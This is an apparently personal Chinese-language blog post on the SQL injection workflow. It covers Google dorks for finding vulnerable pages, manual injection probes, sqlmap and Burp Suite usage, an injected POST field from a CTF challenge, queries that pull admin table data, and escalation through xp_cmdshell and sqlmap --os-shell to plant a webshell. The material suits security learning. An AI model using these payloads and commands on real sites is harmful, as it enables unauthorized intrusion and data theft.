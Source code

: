```yaml
---
layout: post
title: 1.1.1-SQL注入-SQL注入基础-SQL注入流程
category: 
  - web安全
tags: 
  - sql注入
  - web安全
abbrlink: 820776471
date: 2018-06-11 00:00:00
description: more
---
```


### SQL注入流程
#### 01 寻找SQL注入点
##### 寻找SQL注入点

无特定目标：  
inurl:.php?id=  

有特定目标：  
inurl:.php?id=site:target.com 
// jsp sid   

工具爬取：  
spider,对搜索引擎和目标网站的链接进行爬取  

**注入识别**  
手工简单识别：  
	
	'
	and 1=1 / and 1=2
	and '1'='1 / and '1'='2 
	and 1 like 1 / and 1 like 2

工具识别：  
	
	sqlmap -m filename (filename中保存检测目标)
	sqlmap --crawl(sqlmap对目标网站进行爬取，然后依次进行测试)
 
**高级识别：**  
扩展识别广度和深度：  
	
	SqlMap --level 增加测试级别，对header中相关参数也进行测试
	sqlmap -r filename (filename中为网站请求数据)

利用工具提高识别效率：
	
	BurpSuite + SqlMap
	BurpSuite拦截所有浏览器访问提交的数据
	BurpSuite扩展插件，直接调用SqlMap进行测试

一些Tips：  

可以在参数后键入“*” 来确定想要测试的参数  
可能出现注入的点：新闻、登录、搜索、留言... ...  
站在开发的角度去寻找  


---
	
	python sqlmap.py -r 1.txt

burp sqlmap 扩展  
Burp-> Extender->BApp Store -> SQLiPy Sqlmap  

**代码审计：**

搜索关键代码和函数  
梳理业务流程  

强网杯WEB “python is the best language”  

	http://test.com/register  
	POST:  

	username=test&email=t@t.com&password=123&password2=123&submit=Register  
	username=test&email=t@t.com' and '1' = '1&password=123&password2=123&submit=Register  



#### 02 SQL注入流程

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/02/01.png)

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/02/02.png)

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/02/03.png)

数据获取
	
	web.mdb
	
	select [*] from admin
	select [*] from system
	
	select [username] from system
	select [name] from system


![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/02/04.png)

提权
	
	xp.cmdshell
	
	--os-shell // 执行系统命令 写webshell到网站目录
	
	


